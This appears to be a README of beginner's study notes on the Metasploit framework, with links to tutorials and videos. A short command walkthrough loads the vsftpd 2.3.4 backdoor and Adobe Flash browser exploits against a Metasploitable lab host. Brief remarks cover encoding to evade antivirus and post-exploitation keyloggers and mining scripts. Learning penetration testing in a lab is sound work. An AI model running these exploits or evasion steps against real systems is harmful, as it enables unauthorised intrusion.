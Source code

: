 ### Metasploit Readings and Videos<p>
  
[Metasploit for Beginners](https://www.concise-courses.com/security/metasploit-for-beginners/).<br />
[A Tour of the Metasploit Framework](http://www.ethicalhackx.com/metasploit-framework/).<br />

<p>
Youtube: Metasploit for Beginners<br />
  
[![thumbnail from the video](http://img.youtube.com/vi/cnkLv_RE3EI/0.jpg)](https://www.youtube.com/watch?v=cnkLv_RE3EI "MetaSploit tutorial for beginners")<p>
<p>
  
[Setting up a Metasploit postgresql database](https://www.offensive-security.com/metasploit-unleashed/using-databases/).<p>
<p>
Hak5's Metasploit Minute series<br />
  
[![thumbnail from the video](http://img.youtube.com/vi/NTdthBQYa1k/0.jpg)](https://www.youtube.com/watch?v=NTdthBQYa1k "5 Ways To Get Initial Access - Metasploit Minute")<p>

Hackersploit's Metasploit For Beginners - #1 - The Basics - Modules, Exploits & Payloads<br />
  
[![thumbnail from the video](http://img.youtube.com/vi/8lR27r8Y_ik/0.jpg)](https://www.youtube.com/watch?v=8lR27r8Y_ik "Metasploit For Beginners - #1 - The Basics - Modules, Exploits & Payloads")<p>
<p>
  
  ### Demonstration and Things to Remember<br />
  <br />
  start postgresql before msfconsole<br />
  searching: type and platform<br />
  <p>
  commands:<br />
  
  * search type:exploit platform:windows flash
  * help
  * use exploit/windows/browser/adobe_flash_avm2 (turns red if loaded)
  * show options (customize the attack) and set SRVPORT 80
  
  ANOTHER and BETTER EXAMPLE:
  * use ZenMap to see software running and note network topography
  * db_nmap_status, db_nmap -T4 -A -v metasploitableIP
  * show (gives lots of info)
  * show info (good place to start)
  * show payloads (shows all of the payloads available)
  * show targets
  * search vsftpd
  * use exploit/unix/ftp/vsftpd_234_backdoor
  * info
  * set RHOST 10.______
  * finish with 'exploit'
  <p>
  Modules directory:  /usr/share/metasploit-framework<br />
  NOPS for buffer overflows<br />
  Encoding for sneaking through antivirus<br />
  post for further attacks are being pwned (keyloggers, VNC, etc.)<br />
  post/windows/gather <--btc-mining and other scripts<br />
  
  Armitage - GUI for MSF
  
  ezsploit automation
  
  Reconnaisance<br />
  
 CTFR[![CTFR](https://a.pomf.cat/qqtejp.png)]
  
